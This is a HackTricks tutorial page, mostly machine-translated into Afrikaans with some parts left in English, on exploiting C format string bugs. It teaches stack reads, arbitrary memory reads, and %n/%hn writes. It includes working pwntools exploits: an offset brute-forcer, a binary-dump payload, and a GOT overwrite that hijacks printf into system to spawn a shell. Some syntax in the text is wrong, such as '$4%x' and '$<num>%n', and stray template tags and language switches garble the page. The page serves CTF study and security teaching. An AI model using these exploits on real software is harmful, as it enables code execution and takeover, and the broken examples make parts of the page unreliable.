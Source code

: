 # Format Strings

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

In C **`printf`** is 'n funksie wat gebruik kan word om **te druk** 'n string. Die **eerste parameter** wat hierdie funksie verwag is die **rou teks met die formateerders**. Die **volgende parameters** wat verwag word is die **waardes** om die **formateerders** van die rou teks te **vervang**.

Ander kwesbare funksies is **`sprintf()`** en **`fprintf()`**.

Die kwesbaarheid verskyn wanneer 'n **aanvaller teks as die eerste argument** vir hierdie funksie gebruik word. Die aanvaller sal in staat wees om 'n **spesiale invoer te vervaardig wat** die **printf formaat** string vermoëns misbruik om te lees en **skryf enige data in enige adres (leesbaar/skryfbaar)**. Op hierdie manier in staat om **arbitraire kode uit te voer**.

#### Formateerders:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Voorbeelde:**

* Kwetsbare voorbeeld:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Normale Gebruik:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Met Ontbrekende Argumente:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf kwesbaar:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input cna include formatters!
fclose(output_file);
return 0;
}
```
### **Toegang tot Pointers**

Die formaat **`%<n>$x`**, waar `n` 'n getal is, laat toe om aan printf aan te dui om die n parameter (van die stapel) te kies. So as jy die 4de parameter van die stapel met printf wil lees, kan jy doen:
```c
printf("%x %x %x %x")
```
en jy sou van die eerste tot die vierde param lees.

Of jy kan doen:
```c
printf("$4%x")
```
and lees direk die vierde.

Let op dat die aanvaller die `pr`**`intf`-parameter beheer, wat basies beteken dat** sy invoer in die stapel gaan wees wanneer `printf` aangeroep word, wat beteken dat hy spesifieke geheue adresse in die stapel kan skryf.

{% hint style="danger" %}
'n Aanvaller wat hierdie invoer beheer, sal in staat wees om **arbitraire adresse in die stapel by te voeg en `printf` toegang tot hulle te laat kry**. In die volgende afdeling sal verduidelik word hoe om hierdie gedrag te gebruik.
{% endhint %}

## **Arbitraire Lees**

Dit is moontlik om die formatter **`%n$s`** te gebruik om **`printf`** die **adres** wat in die **n posisie** geleë is, te laat kry, dit te volg en **dit te druk asof dit 'n string is** (druk totdat 'n 0x00 gevind word). So as die basisadres van die binêre **`0x8048000`** is, en ons weet dat die gebruiker se invoer in die 4de posisie in die stapel begin, is dit moontlik om die begin van die binêre te druk met:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Let daarop dat jy nie die adres 0x8048000 aan die begin van die invoer kan plaas nie, omdat die string in 0x00 aan die einde van daardie adres sal wees.
{% endhint %}

### Vind offset

Om die offset na jou invoer te vind, kan jy 4 of 8 bytes (`0x41414141`) stuur, gevolg deur **`%1$x`** en **verhoog** die waarde totdat jy die `A's` ontvang.

<details>

<summary>Brute Force printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Hoe nuttig

Arbitraire lees kan nuttig wees om:

* **Dump** die **binaire** uit geheue
* **Toegang te verkry tot spesifieke dele van geheue waar sensitiewe** **inligting** gestoor word (soos kanaries, versleuteling sleutels of paswoorde soos in hierdie [**CTF-uitdaging**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Arbitraire Skrywe**

Die formatter **`$<num>%n`** **skryf** die **aantal geskryfde bytes** in die **aangegeven adres** in die \<num> parameter in die stapel. As 'n aanvaller soveel karakters kan skryf as wat hy wil met printf, sal hy in staat wees om **`$<num>%n`** 'n arbitraire getal in 'n arbitraire adres te laat skryf.

Gelukkig, om die getal 9999 te skryf, is dit nie nodig om 9999 "A"s by die invoer te voeg nie; om dit te doen, is dit moontlik om die formatter **`%.<num-write>%<num>$n`** te gebruik om die getal **`<num-write>`** in die **adres aangedui deur die `num` posisie** te skryf.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
However, note that usually in order to write an address such as `0x08049724` (which is a HUGE number to write at once), **it's used `$hn`** instead of `$n`. This allows to **only write 2 Bytes**. Therefore this operation is done twice, one for the highest 2B of the address and another time for the lowest ones.

Therefore, this vulnerability allows to **write anything in any address (arbitrary write).**

In this example, the goal is going to be to **overwrite** the **address** of a **function** in the **GOT** table that is going to be called later. Although this could abuse other arbitrary write to exec techniques:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

We are going to **overwrite** a **function** that **receives** its **arguments** from the **user** and **point** it to the **`system`** **function**.\
As mentioned, to write the address, usually 2 steps are needed: You **first writes 2Bytes** of the address and then the other 2. To do so **`$hn`** is used.

* **HOB** is called to the 2 higher bytes of the address
* **LOB** is called to the 2 lower bytes of the address

Then, because of how format string works you need to **write first the smallest** of \[HOB, LOB] and then the other one.

If HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

If HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Pwntools-sjabloon

Jy kan 'n **sjabloon** vind om 'n exploit voor te berei vir hierdie soort kwesbaarheid in:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

Of hierdie basiese voorbeeld van [**hier**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Formaat Strings na BOF

Dit is moontlik om die skryf aksies van 'n formaat string kwesbaarheid te misbruik om **in adresse van die stapel te skryf** en 'n **buffer overflow** tipe kwesbaarheid te ontgin.

## Ander Voorbeelde & Verwysings

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bit, geen relro, geen canary, nx, geen pie, basiese gebruik van formaat strings om die vlag van die stapel te lek (geen behoefte om die uitvoeringsvloei te verander)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om die adres `fflush` met die win funksie (ret2win) te oorskryf
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bit, relro, geen canary, nx, geen pie, formaat string om 'n adres binne main in `.fini_array` te skryf (sodat die vloei een keer meer terugloop) en die adres na `system` in die GOT tabel te skryf wat na `strlen` wys. Wanneer die vloei terug na main gaan, word `strlen` uitgevoer met gebruikersinvoer en wys na `system`, dit sal die oorgedraagde opdragte uitvoer.

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
